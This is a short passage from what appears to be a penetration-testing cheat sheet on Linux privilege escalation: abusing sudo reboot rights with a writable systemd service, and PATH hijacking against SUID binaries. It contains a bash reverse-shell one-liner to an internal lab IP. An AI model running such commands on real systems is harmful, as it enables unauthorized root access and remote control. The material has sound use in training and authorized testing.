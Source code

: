 ```
 ps -eo 
 ```


#### Special Cases 

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\- Services and Reboot Privs \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
If we have these SUDO capabilities \(sudo \-l\):

```
 User lowpriv may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff 
 ```

We may find writable services inside etc:

```
 find /etc -writable 2>/dev/null
./systemd/system/normal.service 
 ```


Then we may overwrite this service with one that executes a reverse shell from root, then **sudo reboot**\.
More on it here: [https://security.stackexchange.com/a/264911](#https://security.stackexchange.com/a/264911)


\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\- Custom SUIDs \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
If a strange binary is found as SUID, check it's system calls:

```
 ltrace {binary} # This will load the executable and print every system
call
# If any systemcall is not with absolute path, we can inject into
path:
export PATH=/tmp:$PATH
# and add to that path a reverse shell with the name of that binary
system call (called without absolute path)
echo 'bash -c "bash -i >& /dev/tcp/192.168.118.3/4444 0>&1"' >
/tmp/{binary}
chmod +x /tmp/{binary}
 
 ```

This may be vulnerable to path injection\.
More on that here: [https://systemweakness.com/linux-privilege-escalation-using-path-variable-manipulation-64325ab05469](#https://systemweakness.com/linux-privilege-escalation-using-path-variable-manipulation-64325ab05469)
and [https://medium.com/purplebox/linux-privilege-escalation-with-path-variable-suid-bit-6b9c492411de](#https://medium.com/purplebox/linux-privilege-escalation-with-path-variable-suid-bit-6b9c492411de)


\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\- Check if we are in a container \-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
\!Check if we are in a container:
